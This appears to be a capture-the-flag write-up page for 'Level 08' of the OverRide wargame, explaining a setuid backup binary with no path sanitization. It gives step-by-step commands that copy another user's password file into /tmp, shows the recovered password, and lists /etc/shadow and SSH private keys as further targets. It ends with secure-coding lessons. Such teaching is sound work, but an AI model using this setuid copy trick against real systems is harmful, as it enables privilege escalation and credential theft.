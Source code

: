```yaml
---
sidebar_position: 10
---
```


import AsciinemaPlayer from '@site/src/components/AsciinemaPlayer';
import MissionObjective from '@site/src/components/MissionObjective';
import VulnerabilityCard from '@site/src/components/VulnerabilityCard';
import CodeBlock from '@site/src/components/CodeBlock';
import StepsList from '@site/src/components/StepsList';

# 🗂️ Level 08

<MissionObjective 
  level="Level 08"
  target="level09 privileges"
  method="Path manipulation and setuid privilege abuse"
/>

## Vulnerability Analysis

<VulnerabilityCard 
  type="Path Traversal & Setuid Privilege Abuse"
  severity="high"
  description="Binary creates backup copies of files with setuid privileges but lacks path sanitization. By manipulating working directory and folder structure, we can force it to copy restricted files to accessible locations."
  techniques={[
    "Path Manipulation",
    "Setuid Abuse", 
    "Directory Traversal",
    "Relative Path Exploitation"
  ]}
/>

## Program Behavior Analysis

<CodeBlock 
  title="Binary Usage"
  command="./level08 filename"
  output={`Usage: ./level08 <filename>
Program expects a filename as argument
Creates backup in ./backups/ directory`}
/>

**Core Functionality:**
- Reads source file with setuid privileges (level09)
- Creates backup copy in `./backups/` + filename
- No path validation or sanitization
- Relative destination path vulnerable to manipulation

## Source Code Analysis

<CodeBlock 
  title="Pseudocode Logic"
  command="# Simplified program flow"
  output={`FILE *log = fopen("./backups/.log", "w");
fprintf(log, "Starting back up: %s\\n", argv[1]);

FILE *source = fopen(argv[1], "r");  // Read with setuid privileges

char dest[100];
strcpy(dest, "./backups/");
strncat(dest, argv[1], 99 - strlen(dest));  // No path sanitization!

int fd = open(dest, O_WRONLY | O_CREAT | O_TRUNC, 0640);

// Copy file byte by byte
while ((c = fgetc(source)) != EOF) {
    write(fd, &c, 1);
}

fprintf(log, "Finished back up: %s\\n", argv[1]);`}
/>

## Vulnerability Deep Dive

<CodeBlock 
  title="Path Construction Vulnerability"
  command="# Example path construction"
  output={`Input: /home/users/level09/.pass

Source path: /home/users/level09/.pass (absolute)
→ Read with setuid privileges ✓

Destination: ./backups/ + /home/users/level09/.pass
→ ./backups//home/users/level09/.pass (relative to CWD)
→ Controllable by attacker! ✓`}
/>

**Critical Issues:**
1. **No path sanitization**: Argument used directly in file operations
2. **Relative destination**: `./backups/` depends on current working directory
3. **Setuid read privilege**: Can access restricted files
4. **Directory creation**: No validation of destination path components

## Exploitation Strategy

<CodeBlock 
  title="Attack Methodology"
  command="# Exploitation approach"
  output={`1. Choose writable directory (/tmp)
2. Create matching folder structure
3. Manipulate working directory
4. Force program to copy restricted file
5. Read copied content from accessible location`}
/>

## Step-by-Step Exploitation

<StepsList
  title="Path Manipulation Attack"
  steps={[
    {
      title: "Setup Working Directory",
      description: "Move to writable location where we can create folder structure",
      command: "cd /tmp",
      result: "Now in world-writable directory"
    },
    {
      title: "Create Destination Structure", 
      description: "Pre-create the folder path where backup will be written",
      command: "mkdir -p ./backups/home/users/level09/",
      result: "Destination directory structure ready"
    },
    {
      title: "Execute Privilege Abuse",
      description: "Run setuid binary to copy restricted file",
      command: "~/level08 /home/users/level09/.pass",
      result: "File copied with elevated privileges"
    },
    {
      title: "Read Extracted Data",
      description: "Access the copied restricted file content",
      command: "cat ./backups/home/users/level09/.pass",
      result: "level09 password revealed"
    }
  ]}
/>

## Live Demonstration

<AsciinemaPlayer 
  src="https://asciinema.org/a/OxqqUdpwF5lKom85GPgwrJdfh.js" 
  id="asciicast-OxqqUdpwF5lKom85GPgwrJdfh" 
/>



## Complete Exploit Demonstration

<CodeBlock 
  title="Full Exploitation Sequence"
  command="# Complete attack chain"
  output={`level08@OverRide:~$ cd /tmp
level08@OverRide:/tmp$ mkdir -p ./backups/home/users/level09/
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat ./backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
level08@OverRide:/tmp$ su level09
Password: fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
level09@OverRide:~$ whoami
level09`}
/>

## Technical Analysis

### Path Resolution Mechanics

<CodeBlock 
  title="Understanding Relative vs Absolute Paths"
  command="# How the OS resolves the paths"
  output={`Source: /home/users/level09/.pass
→ Absolute path, resolved from root
→ Setuid binary can read this file

Destination: ./backups//home/users/level09/.pass  
→ Relative to current working directory
→ If CWD is /tmp, actual path becomes:
→ /tmp/backups/home/users/level09/.pass`}
/>

### Setuid Privilege Model

:::tip **How Setuid Exploitation Works**
- **Effective UID**: Process runs with level09 privileges
- **File Access**: Can read files owned by level09
- **Write Operations**: Destination still respects file system permissions
- **Working Directory**: Inherited from calling process (user-controlled)
:::

## Directory Structure Analysis

<CodeBlock 
  title="Required Folder Hierarchy"
  command="tree /tmp/backups/"
  output={`/tmp/backups/
└── home
    └── users
        └── level09
            └── .pass  # This is where our copied file appears

4 directories, 1 file`}
/>

## Alternative Attack Vectors

<CodeBlock 
  title="Other Potential Targets"
  command="# What other files could we copy?"
  output={`~/level08 /etc/passwd
→ Copy system password file

~/level08 /home/users/level09/.ssh/id_rsa  
→ Copy SSH private keys

~/level08 /etc/shadow
→ Copy password hashes (if readable)`}
/>

## Protection Bypass Analysis

### Why Common Defenses Fail

:::warning **Security Mechanism Bypasses**
- **Path Sanitization**: Completely absent in this implementation
- **Chroot/Jail**: Not implemented, absolute paths work normally  
- **Permission Checks**: Only applied to destination, not source
- **Symlink Protection**: No symlink validation performed
:::

## Debugging the Vulnerability

<CodeBlock 
  title="Understanding the Flow with strace"
  command="strace -f ~/level08 /home/users/level09/.pass"
  output={`openat(AT_FDCWD, "/home/users/level09/.pass", O_RDONLY) = 3
openat(AT_FDCWD, "./backups//home/users/level09/.pass", 
       O_WRONLY|O_CREAT|O_TRUNC, 0640) = 4
       
→ Source opened with absolute path
→ Destination opened relative to CWD`}
/>

## Key Learning Points

:::tip **File System Security Concepts**
- **Setuid Binary Analysis**: Understanding privilege inheritance
- **Path Manipulation**: Exploiting relative path construction
- **Working Directory Control**: How CWD affects file operations
- **Privilege Escalation**: Reading restricted files via setuid abuse
:::

## Code Review Lessons

<CodeBlock 
  title="Secure Implementation Requirements"
  command="# What should have been done"
  output={`1. Path sanitization: Reject ../ and absolute paths
2. Destination validation: Ensure writes stay in safe directory
3. Drop privileges: Don't maintain setuid for file copying
4. Canonical paths: Resolve all paths to absolute before use
5. Access controls: Verify user can read source legitimately`}
/>

## Technical Summary

This level demonstrates:
1. **Setuid Binary Analysis** - Understanding privilege inheritance and abuse
2. **Path Manipulation Attacks** - Exploiting relative path construction
3. **File System Security** - Working directory and permission interactions
4. **Privilege Escalation** - Reading restricted files through design flaws
5. **Code Review Skills** - Identifying missing input validation

The vulnerability showcases how seemingly innocent file operations can become security risks when combined with elevated privileges and insufficient input validation. This is a classic example of **confused deputy** problem